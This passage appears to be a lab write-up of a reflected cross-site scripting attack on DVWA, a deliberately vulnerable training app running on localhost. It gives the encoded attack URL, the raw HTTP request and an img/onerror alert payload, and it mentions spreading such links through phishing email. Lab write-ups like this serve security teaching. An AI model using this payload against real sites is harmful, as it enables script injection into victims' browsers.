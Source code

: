       ```
  The above line shows the formatting and type of the accepted requests. 

 #### Scenario

 ```
  http://localhost/dvwa/vulnerabilities/xss_r/?name=%3Cimg+src%3D%22incalid%2F%22+onerror%3D%22alert%281%29%22%2F%3E#
```
 ```
 GET /dvwa/vulnerabilities/xss_r/?name=%3Cimg+src%3D%22incalid%2F%22+onerror%3D%22alert(1)%22%2F%3E HTTP/1.1
 Host: localhost
 User-Agent: Mozilla/5.0 (X11; Linux i686; rv:60.0) Gecko/20100101 Firefox/60.0
 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
 Accept-Language: en-US,en;q=0.5
 Accept-Encoding: gzip, deflate
 Cookie: security=low; PHPSESSID=ehjttu330l2itksvehcjcov6j0
 Connection: close
 Upgrade-Insecure-Requests: 1
 ```
 ### ### REFLECTED PAYLOAD ### ###:
 ```
 <img src="invalid/" onerror="alert(1)"/>
  ```
 - The reflected XSS on DVWA works by passing the input to an output which prints a result to the screen. The output in interpreted in a dynamic javascript statment allowing for html to be passed to it and run on the victims browser. The javascript is seen encoded in the browser thus can be sent to others through a link ina phishing email, etc.